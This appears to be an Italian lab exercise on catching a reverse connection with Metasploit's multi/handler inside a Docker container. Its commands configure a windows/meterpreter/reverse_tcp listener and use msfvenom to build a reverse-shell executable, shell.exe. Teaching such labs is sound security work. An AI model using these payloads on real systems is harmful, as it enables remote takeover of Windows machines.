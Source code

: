 # 🧪 Esercizio 2 – Uso del modulo multi/handler in Metasploit

## 🎯 Obiettivo
Simulare la ricezione di una connessione reverse da un payload Windows usando il modulo `multi/handler` di Metasploit.  
L’esercizio è pensato per ambienti Docker via browser, come [Play with Docker](https://labs.play-with-docker.com), e non richiede un target reale.

---

## 🐳 1. Avvio del container Metasploit

Nel terminale PWD:

```bash
docker run --rm -it metasploitframework/metasploit-framework

💻 2. Avvio della console Metasploit

msfconsole

🔍 3. Caricamento del modulo handler

use exploit/multi/handler


⚙️ 4. Configurazione del payload

set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.0.100
set LPORT 4444


🚀 5. Avvio del listener

exploit


🔎 Output atteso:

[*] Started reverse TCP handler on 192.168.0.100:4444


🧪 6. Simulazione del payload

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.100 LPORT=4444 -f exe > shell.exe


